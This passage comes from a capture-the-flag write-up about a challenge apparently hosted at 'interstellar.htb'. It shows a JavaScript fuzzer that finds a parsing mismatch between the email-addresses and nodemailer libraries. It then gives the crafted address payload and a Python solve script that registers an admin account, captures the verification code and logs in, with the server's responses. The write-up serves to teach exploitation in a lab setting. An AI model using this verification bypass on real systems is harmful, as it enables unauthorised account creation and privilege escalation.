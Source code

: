 ```js [email-fuzzer.js]
        if (d1 === "interstellar.htb" && d2.some((x) => !x.address.endsWith("@interstellar.htb"))) {
            console.log("possible", fuzzedEmail, d1, d2.map((x) => x.address));
        }

        if (d1 === "interstellar.htb" && d2.some((x) => x.address === "test@email.htb")) {
            console.log(`Mismatch found after ${iterations} iterations!`);
            console.log(`Fuzzed Email: ${fuzzedEmail}`);
            console.log(`email-addresses output: ${d1}`);
            console.log(`nodemailer output: ${JSON.stringify(d2)}`);
            break;
        }
    } catch (error) {
        console.error(`Error processing email: ${fuzzedEmail}`, error);
    }
}
```

### email payload
After a while I got this.

```
<("test>@email.ht\b" {:<du'>mm)y@interstellar.htb> interstellar.htb [ '("test' ]
```

Which looks promising because `email-addresses` thinks it has `interstellar.htb` domain, while `nodemailer` gives a totally different address!

Let's build on it a little bit more and simplify the payload.

```
<(<test@email.htb>)y@interstellar.htb>
```

This is a rather interesting payload!

```python [solve.py]
email = f"u{random.randint(100, 1000)}@interstellar.htb"
email = f'<(<test@email.htb>)y{random.randint(100, 1000)}@interstellar.htb>'
print(requests.post(target + "/api/register", json={
    "email": email,
    "password": "password",
    "role": "admin"
}).text)
requests.get(f"{emailt}/deleteall")
print(requests.post(f"{target}/api/sendEmail", json={"email": email}).text)
sleep(0.5)
code = re.findall(r"Your verification code is: ([a-f0-9]+)", requests.get(emailt).text)[0]
print("code", code)
print(requests.post(f"{target}/api/verify", json={"email": email, "code": code}).text)
token = requests.post(f"{target}/api/login", json={"email": email, "password": "password"}).json()['token']
```

```json
{"message":"User registered. Verification email sent.","status":201}
{"message":"New verification code sent","status":200}
{"message":"Account verified successfully","status":200}
```
